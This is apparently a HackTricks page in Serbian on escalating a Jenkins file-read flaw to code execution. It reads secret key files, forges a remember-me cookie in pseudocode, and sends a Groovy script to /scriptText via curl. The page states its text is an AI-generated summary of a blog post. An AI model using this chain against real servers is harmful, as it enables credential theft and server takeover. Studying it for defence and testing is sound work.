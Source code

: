 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

U ovom blog postu je moguće pronaći odličan način da se transformiše ranjivost Local File Inclusion u Jenkins-u u RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ovo je AI kreirani rezime dela posta gde se zloupotrebljava kreacija proizvoljnog kolačića da bi se dobio RCE zloupotrebom lokalnog čitanja datoteka dok ne budem imao vremena da napravim svoj rezime:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" mora biti omogućeno (podrazumevani postavka).
* **Access Levels:** Napadač treba Overall/Read dozvole.
* **Secret Access:** Sposobnost čitanja binarnog i tekstualnog sadržaja iz ključnih datoteka.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Pristupite korisničkoj konfiguraciji i tajnama iz `$JENKINS_HOME/users/*.xml` za svakog korisnika da prikupite:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Izvucite kriptografske ključeve korišćene za potpisivanje kolačića:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Dodaje jedan sat trenutnom vremenu
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Konvertuje master key u AES128 format
decrypted = AES.decrypt(macFile, key)  // Dešifruje .mac datoteku
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Izračunava HMAC koristeći token i MAC ključ
tokenSignature = bytesToHexString(mac)  // Konvertuje MAC u heksadecimalni string
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 kodira podatke kolačića
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Napravite zahtev ka `/crumbIssuer/api/json` da dobijete `Jenkins-Crumb`.
* Zabeležite `JSESSIONID` iz odgovora, koji će se koristiti zajedno sa kolačićem "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy skripta može se koristiti za izvršavanje komandi na sistemskom nivou ili drugih operacija unutar Jenkins okruženja.

Primer curl komande prikazan je kako bi se pokazalo kako napraviti zahtev ka Jenkins-u sa potrebnim zaglavljima i kolačićima za sigurno izvršavanje proizvoljnog koda.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

